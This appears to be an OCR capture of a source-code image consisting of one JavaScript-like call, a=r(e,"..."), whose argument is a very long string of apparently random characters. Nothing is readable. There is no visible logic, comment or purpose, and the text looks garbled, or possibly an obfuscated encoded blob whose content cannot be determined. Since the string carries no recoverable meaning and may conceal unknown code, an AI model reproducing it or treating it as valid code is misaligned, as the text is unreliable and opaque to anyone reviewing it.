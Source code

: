 a=r(e,"?m=&PpCn:9SsYxLOOpp:NPs_pLjxsPCqqYsC&OmRsnCLmCYpCYm:YPCL3=Y&n&mnYL::=PxXnY=CsxCC&nL&CsjCSOpO&=sx:xmsL9:9&YLS9OP(LY9:P=xp:OprLsnpPxO:9YPsOpS9ppamSYpSmmswpYX:s=&p^xs:pYTsspPEmpsLC=6OY:n==PY:nP=*YSPx=pxT:=mOxP:C=Lxx:P&QxY:CmPx&:s=OLC99&YL:9P&LsO:L&SYL:O&YLs9LPLO:SPp-OYSSCYaQSYp:y=:Ypxw&sPm=m=s=psY=9=C&m9spCxmYsS===msOn:=:Y&nY=CxOnY=:xPLL9&Psxp9O=nOPn9=mxz:xpxu990&O9PPWLY9:PPO;9Y&:&&S=pCO:SPpAOSnsPSOC:TpOlSsCpxA:sCCYuYs:CP6L9CC&ySsnPLmYssCOmnYOn&=DYYn:=PxDnY=:L:YD=LxO:P&IxYLLS&p=Om99PnO:&Lmf9PP,LY9C=SLS9nPxSC9:PnOC9s3=>p9sp9s=SLpY1psCp&OxsSpn!=CSCxKsY=C=YC9OCxm9YPppm&sx=CN:9mnS=xx%nY=:x=p9=&xL&Cgxx&9&LnL=99&:LP9*&SYp:sPs9LnLPsOC9xPYLO9&PSOSSLpaOYS:p=xsSYpL{:smP=OOsLCC_LxpCPmdsYCC-LYCn=mSY9&Yxx:9nO=mx&nL=s9>n mO9pP9mCs=CSOpxsnP6xYspC&pLC9s&YL:9P&LYS99&xL99&&LSCnsPYSsSPp_OYS:pPX-SYp:)Ps=C=J:sPC}}SsSC:2ssYCLmCx&CYm:YPCLImx&n9=CY&nncmYn:noOxPns&PYO::&pYO:C&CLx:Y&:LP:LmnL:9SPPLxCOPPL&9RPCLs9CPLl}SPp>OYSC=SOnSPPsIsSLC=v:sPCzjYs:CPOq=sS:mCYpCYm:YPCLmpssn&mnYL:X=PxBnY=Cs&n&=9YOCS=&xh:S&OLB:Y&:L=n:&&LY:O&:OnPS=mLnSnPSOSSVPYO:mnYPCLmmY=CnSLC&^PsqpYzC9&p&%9SOPx*ssYpLmpY9CLPmYPnimYYCCL=Cx=nS=99Y&xL9x=ns=YxpP&&CYO:Y=xxn9=O:LP:nP=S9pnkpSOCAULsSCP%9Om9npnsnC:m&Y}n=pCR9SYp:qPSLC=T9s9CCm2s&CPq9sLnCmPYNCYmCSSCn=CYLPSmsxmCs=Cx=n&msx::=&Px::P&1xSpL=OLp:m&9L::C&LOp9PPhLY9CmSLsSm&xOpSPP=SS:=PsOYSppCpCSYp:IPSLpC_LsSC=mm:P=pxmYDpsmx:RCpm&YSCS=&sYns=pY&nYm9xmnY=LYs:,&=9:n9&mxsP9m9xp9g&&LC9Cm.LY9YEmYS9&&:OP:OPYOO:mpAO&Spp*sxSYPsO:smm9OLSnPOOLs9=mWsSspOmenxPCfOsPneesY:nsOxYYCO=mYYnS=xx/nY=:x=px=&L&pO&^xL:O&SL=9n&:LP9U&SLC9p&&L=9xPSOP9nP:LxS=p=O:SPpoOS:&p&O&SpPOXCs9pYw:sPpLLmSsC=,Ls*ps+9sxCLmYYPn7mY&YLx93&mnSP2xlnY=:x=:P={L=nn&pLmnO&Sxs:=lPSppm nSSpY.Ss&C&VSs&Cm0YsYCnmnsxSCp:OYS:pPOL:CpLwSs=&pOOsSC=m9s:CPm)sSPpwsYsmLmLYsnCmxYYCOm&YSnS&YxXnY=:x=:P=vL=nn&pLmnO&Sxs:=WPSppm>=SLpL+psmpLXsssCnm=OCY^PYO:SPPLx99OpOs=CC&COOs3p9sSSnCnm=s9C&D&Y=C&K9s&CSmCYO==mmY9nCmsY&CLxOx=:h=:xP:;:LpmO:9pxL9&&PLN:Y&Csn:C&=YL:sPSO=:YPpOS9LCPOPSjPYOCS:PPZC9sp9QpS&pLOOSC=:Y9np=9YOnS=YxnnL&=xn:9&mxL:L&nLpYSn:=aYYn:==Sxn&&&xC:Y=Yx::P=LsL:Y=sxO:n&OL&nm&YLC9OP=OS9:PPOw9S&9OpSC=pLmnxpPOpSPPYO:9pp:HCYmpY;:sPpLLsSsCm-n9YC9mSssCPm&s9C&==Y&np=aYL:==Px>nY=CSs:j&=YO::L=s9nO&OL=S:&:LP9B&SLY::PSxO9xP9LnS=P&LSCYGxs9Cxm&YCn&mxYsCLmxYnn:=mYYnO=saYs:CPm*sYC:mPYTSYmSY9nUmYY:L::m=LLP:9x=:m=:xP:f=Ss&n9&mxY:Sp=L1:Y&:L=ns&xLOPC&&Of:OOCLL9xPmLx9nP=SS9OpXSL9sp9s=9O6S6CSLPOm&SsCP(LssCPm!sYxs:9==CL&=YPncmYYCp&=mYxn:h9Ynnmm9s9:C&7x&:P=9LmC==OxC:==OLPC&P=LL9:P=M&9:PPOT9S=xOOSpp=LOS&U=x99OpOs=sS&O_PSsCPOOs:CpOOsCn=m=YjC:mPYtYO:,=pL=mLx=nP=aYYnCOOxU:==Yxpps=mx9:P&=LP::&PLj:Smmxs9CLLYp:sPsLL9LPPO-9YPCOm9npnOY99p=mmS:pPF-SSpYOOS:C=Oxs=p&mpCSn=OnsYC&mYsnnhmxsnCL=SYSnn=kYYn:==YmppL9xP:T=YLSYC&exY::PmLi:Y&:LSSs&YL:9PPPLY99PPOm9YPYOpStPYO:S:pkOxS:p:{mSYp:HPL7pYy9sPCjpZs:CPm3sYC:mPYtCY=mYPnmmYY:nP=KYYn:&OxZnY=:xP:A=xx:SPnLxY::&PL+:YPCLPS=COL:9pPo*p9:PPOqSLPYOPS=PY*pSPpvOYSLsOHcSOp:zxsvpxT:spC yY=:CPmRsYC9mPYbCYm:YsnRmLY:nC=fYxn:&CxnnY=SxPSL=Yx::PP=O)::&nLFSL&:LP9ZpYLs9PP&LY9sPP&m9YpSmmSUpyO:L=p1OYS:nPm:SYpYuPsPpYmSsPn=mLs:C9mwxLC:mPYc:YCCYPnpmYYxnPCPYY:SCLxh:==:OC:Q=Yx:SP&CxY:L&PLC:YCYLP9XPsL:9sPwLY9:PPO%SLCPOPS:PYmmSPp)OYsSC=}Bspp:==s6pYd:YCnP YY=CPmLsYC:mPYPnLm:YYne&xY:np=vYYLC=PxYnY=xxP:5=Yx:YO&FL9::&OL_:Y&:LP9n&YOP9PP=LY9SPPO(S&P:OsS}pnO:svpHOYS9pP#nSYCP_PsspY*YmxCemPs:nOmMsxC:mP&CCY=zYPn:mYY:nP=C&nn:=Yx.nY=:xp:0&=x::PS8xY::&PL=:Y&:LP9HSYL:9PPuOX9:PPO